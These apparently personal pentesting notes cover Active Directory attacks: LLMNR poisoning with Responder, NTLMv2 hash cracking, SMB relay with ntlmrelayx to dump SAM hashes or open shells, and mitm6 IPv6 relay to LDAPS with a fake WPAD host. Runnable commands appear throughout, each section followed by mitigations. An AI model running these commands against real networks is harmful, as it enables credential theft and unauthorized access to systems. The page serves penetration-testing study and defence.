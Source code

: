 ```yaml
---
layout: default
title: 01. Active Directory Attack Vectors
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## 01.Active Directory Attack Vectors

Strategies:
1. Start with mitm6 or responder
2. Run scan to generate trafic (Nessus / Nmap)
3. if scan is too long, target website included in the scope. (http_version in metasploit)
4. Look for default credentials (Printers, Jenkins, Oracle, ....)


### LLMNR Poisoning

- Used to identify host when DNS is failing
- Previously called NBT-NS
- When we respond to this service, it respond with a username and the hashes

![LLMNR Poisoning](/writings/docs/assets/LLMNR.png)
![](docs/assets/LLMNR.png)

#### Responder (Capture NTLMv2 hashes)

The first step to perform this attack is to run [responder](https://github.com/lgandx/Responder).

It could be installed with [impacket toolkit](https://github.com/fortra/impacket).

It is the first tool to launch when starting an assignment.

Example using the `eth0` interface: 
```bash
python Responder.py -I eth0 -rdwv
```

When an event occurs, we receive the information about the user performing it, including his hash.

#### Crack NTLMv2 hashes

When we retrieve the hash we are going to crack it:

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```


#### LLMNR Mitigation

- Disable LLMNR and NBT-NS
- Enable Network Access Control (NAC)
- Require strong user policy (to avoid the cracking)


### SMB Relay

- Instead of cracking the hash, relay them
- Need SMB signing to be disabled
- Relayed credentatials must be admin on the targeted machine

![SMB Relay](/writings/docs/assets/SMB_Relay.png)![](docs/assets/SMB_Relay.png)

#### Update responder

Updating the `Responder.conf` file by putting the `SMB` and `HTTP` value to `Off`

#### Start responder

We start responder like before, but now the SMB and HTTP server is off:

```bash
python Responder.py -I eth0 -rdwv
```

#### Find targets

Targets must have smb signing disabled, to detect hosts having this particularity, we can use nmap:

```bash
nmap --script=smb2-security-mode.nse -p445 $IP/$RANGE
```

Then we can add the lists of hosts in a file called `targets.txt`. 

#### Start the relay

Then we start the service in charge of the relay: 

```bash
python ntlmrelayx.py -tf targets.txt -smb2support
```

Once it's running, the relay will relay the hash to the other machine and if the connection is established, the SAM hashes are extracted from the host. (hashes of the local user on the computer)

##### Shell access

To update the usage to prompt a shell access we could add the `-i` option to the relay: 
```bash
python ntlmrelayx.py -tf targets.txt -smb2support -i
```

We should see log indicating that a connection is open on a port.

To connect we use netcat:

```bash
netcat 127.0.0.1 11000
```

Then we are inside the smb shell of the corresponding server. 

#### SMB relay mitigation

- Enable SMB signing on every machine (decrease speed of transfer)
- Disable NTLM authentication on the network
- Implement account tierring 
- Restrict permission to local admin

### Gaining Shell Access 

As we might have retrieve credentail from previous section, we could use metasploit and `psexec`to gain a shell access. 

We could also use part of the impacket toolkit: 
- `psexec.py`
- `smbexec.py`
- `wmiexec.py`


### IPv6 - MITM6

#### Installing mitm6

[Github](https://github.com/dirkjanm/mitm6)

Should installed using pip (maybe pip2 if pip3 is breaking the installation) 

#### Launching the attack

```bash
mitm6 -d domain.local
```

From here we are starting to receive trafic form hosts in the network.

#### Setting up the relay

```bash
ntmlrelayx.py -6 -t ldaps://$AD_IP -wh fakewpad.evil.local -l lootme 
```

Now we sould wait for some trafic.

Once we have some trafic, we could check the `lootme` folder to verify all the information we were able to retrieved. 

To go further we could also use the [delegate access](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).

#### mitm6 mitigation

- Disable IPv6 if no device are using.
- Define block fules in the firewall.
- if WPAD is not used, it should be desactivated via the Group Policy.
- Enable LDAP signing and LDAP channel binding.
- Put admin user in the protected group in order to avoid the delegate access exploitation. 


### Passback attack

[Detail on the article](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)


### References:

- [https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) 